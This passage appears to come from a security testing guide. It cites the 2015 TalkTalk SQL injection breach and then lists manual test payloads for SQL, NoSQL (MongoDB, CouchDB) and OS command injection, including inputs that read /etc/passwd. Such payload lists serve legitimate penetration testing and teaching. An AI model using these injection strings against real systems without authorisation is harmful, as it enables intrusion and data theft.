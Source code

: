 ### Case Study 3: TalkTalk Telecom Breach (2015)

- **Impact**: 4 million customer records compromised
- **Cause**: Basic SQL injection attack on customer website
- **Lesson**: Even simple injection attacks can have massive consequences

## 4. Manual Testing Methodology

### 4.1 SQL Injection Testing

```sql
-- Basic SQL injection tests
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' /*                   (use for end the comment-->)*/
admin'--
admin'/*                            */
' UNION SELECT null,null,null--

-- Time-based blind SQL injection
'; WAITFOR DELAY '00:00:10'--
' OR IF(1=1,SLEEP(10),0)--

-- Error-based SQL injection
' AND (SELECT COUNT(*) FROM sysobjects)>0--
' AND (SELECT COUNT(*) FROM information_schema.tables)>0--
```

### 4.2 NoSQL Injection Testing

```javascript
// MongoDB injection examples
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
{"username": {"$where": "return true"}}

// CouchDB injection
{"selector": {"username": {"$gt": null}}}
```

### 4.3 Command Injection Testing

```bash
# Command injection payloads
; ls -la
| id
& whoami
`cat /etc/passwd`
$(cat /etc/passwd)

# Windows command injection
& dir
| type c:\windows\system32\drivers\etc\hosts
```
